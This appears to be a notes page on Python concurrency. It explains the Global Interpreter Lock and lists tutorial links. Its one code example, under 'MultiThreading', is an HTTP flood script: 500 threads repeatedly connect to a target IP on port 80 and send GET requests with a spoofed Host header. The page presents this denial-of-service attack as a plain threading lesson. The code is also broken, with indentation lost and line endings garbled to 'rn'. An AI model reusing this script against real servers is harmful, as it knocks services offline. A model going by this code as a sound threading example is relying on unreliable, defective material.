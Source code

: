 # Concurrency

## Global Interpreter Lock (GIL)

GIL is a mutex that protects access to Python objects, preventing multiple threads from executing Python bytecodes at once. This lock is necessary mainly because CPython's memory management is not thread-safe.

This essentially means that a process can run only one thread at a time. When a thread starts running, it acquires GIL and when it waits for I/O, it releases the GIL, so that other threads of that process can run.

Solution - Run multiple Python instances

## MultiThreading

```python
import threading

import socket

target = '10.0.0.138'

port = 80

fake_ip = '182.21.20.32'

def attack():

while True:

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect((target, port))

s.sendto(("GET /" + target + " HTTP/1.1rn").encode('ascii'), (target, port))

s.sendto(("Host: " + fake_ip + " rnrn").encode('ascii'), (target, port))

s.close()

for i in range(500):

thread = threading.Thread(target=attack)

thread.start()
```

https://bovage.hashnode.dev/what-exactly-is-multithreading

## Links

- https://wiki.python.org/moin/GlobalInterpreterLock
- https://pybay.com/site_media/slides/raymond2017-keynote/index.html
- [Raymond Hettinger, Keynote on Concurrency, PyBay 2017](https://www.youtube.com/watch?v=9zinZmE3Ogk&index=2&list=WL&t=0s)
- https://realpython.com/python-concurrency
- https://www.toptal.com/python/beginners-guide-to-concurrency-and-parallelism-in-python
- https://www.tutorialspoint.com/concurrency_in_python/index.htm
- [**Tutorial: Santiago Basulto - Python Concurrency: from beginner to pro**](https://www.youtube.com/watch?v=18B1pznaU1o)
- [Back to Basics: Concurrency](https://youtu.be/5pYKAoD3Apk) - C++
